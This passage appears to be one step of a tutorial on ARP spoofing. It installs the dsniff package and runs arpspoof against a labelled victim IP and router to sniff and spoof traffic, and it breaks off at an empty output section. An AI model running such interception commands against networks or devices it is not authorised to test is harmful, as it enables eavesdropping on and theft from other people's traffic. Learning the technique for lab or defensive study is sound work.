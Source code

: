 
### Step - 2

we are using dsniff Library to perform the packet sniffing and spoofing Command

### Command -

 `sudo apt-get install dsniff`

![Screenshot](dsniff.png)

### Command -

`sudo arpspoof -i wlo1 -t 192.168.0.108 192.168.0.1`

Device: wlo1.
Victim IP address: 192.168.0.108.
Router IP address: 192.168.0.1


Output -
